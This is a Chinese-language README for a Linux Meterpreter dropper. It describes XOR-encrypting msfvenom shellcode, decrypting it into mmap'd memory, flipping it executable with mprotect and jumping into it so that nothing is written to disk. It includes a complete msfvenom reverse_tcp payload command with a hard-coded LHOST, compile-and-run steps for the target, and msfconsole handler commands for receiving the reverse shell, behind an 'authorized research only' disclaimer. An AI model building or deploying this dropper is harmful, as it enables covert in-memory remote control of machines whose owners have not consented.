

# Linux Meterpreter Dropper（可重現最小示例）

> 僅用於合法授權的安全研究與教育。請遵守當地法律與道德規範。

## 重點
- dropper for meterpreter payload from msfvenom
- 1. Single byte xorred payload
- 2. "decrypted" and copied to dynamically allocated memory buffer
- 3. memory flags changed to allow execution
- 4. Jump to memory to start executing payload

## 這些檔案實現的功能
### 1. 單字節 XOR 加密 payload
- 使用 `0xAA` 作為金鑰對 shellcode 進行 XOR 加密
- 加解密使用相同演算法，簡單但有效

### 2. 動態記憶體分配與解密
- 使用 `mmap()` 分配匿名記憶體區塊
- 在記憶體中直接解密，避免檔案落地

### 3. 記憶體保護權限更改
- 初始權限: `PROT_READ | PROT_WRITE`（可讀寫）
- 執行前更改為: `PROT_READ | PROT_EXEC`（可讀可執行）

### 4. 直接跳轉執行
- 透過函數指標直接跳轉到 shellcode 記憶體位址
- 完全在記憶體中執行，無需寫入磁碟

## 檔案結構
- `linux_dropper.c`：主程式，負責分配、解密、改權限、執行
- `encrypted_shellcode.h`：加密後的 shellcode（示例）
- `shellcode.h`：原始 shellcode（示例）
- `xor_encoder.c`：XOR 工具，用於生成加密陣列
- `compile.sh`：在 Ubuntu 編譯 dropper 的腳本

## 生成 payload（Kali）
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.31.42.18 LPORT=4444 -f c
```
將輸出填入 `shellcode.h`，再以 `xor_encoder.c` 生成 `encrypted_shellcode.h`。

## 編譯與執行（Ubuntu）
```bash
chmod +x compile.sh
./compile.sh
./linux_dropper
```

## Handler（Kali）
```bash
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 172.31.42.18
set LPORT 4444
set ExitOnSession false
exploit -j
```

## 流程圖（End-to-End）
```mermaid
flowchart LR
    A[Kali: msfvenom 生成 payload] --> B[XOR 加密 (0xAA)]
    B --> C[產生 encrypted_shellcode.h]
    C --> D[Ubuntu: 編譯 linux_dropper]
    D --> E[執行 dropper]
    subgraph Dropper 內部流程
      E --> F[mmap 分配 RW 記憶體]
      F --> G[memcpy 複製加密 payload]
      G --> H[XOR 解密至同一緩衝區]
      H --> I[mprotect 改為 RX]
      I --> J[函數指標跳轉並執行]
    end
    J --> K[Kali Handler 接收反連]
```

## 流程圖（記憶體層級）


## 流程圖（ASCII簡潔版）
```
Kali Server (172.31.42.18)         Ubuntu Target
     │                                  │
     ├─ 1. 啟動 MSF 監聽器             │
     │   (port 4444)                   │
     │                                  │
     │                                  ├─ 2. 編譯 dropper
     │                                  │   (gcc compile.sh)
     │                                  │
     │                                  ├─ 3. 執行 dropper
     │                                  │   (./linux_dropper)
     │                                  │
     └─ 4. 接收反向連接 ◄───────────────┘
         (Meterpreter session)
     │
     ├─ 5. 操作目標機器
         (檔案、系統、網路)
```

## 注意事項
- 僅在合法授權的環境中操作。
- 請自行替換 `LHOST/LPORT` 與 shellcode。
- 若 Meterpreter 會話無法建立，請先以 `linux/x64/shell_reverse_tcp` 驗證網路路徑，再切回 Meterpreter。
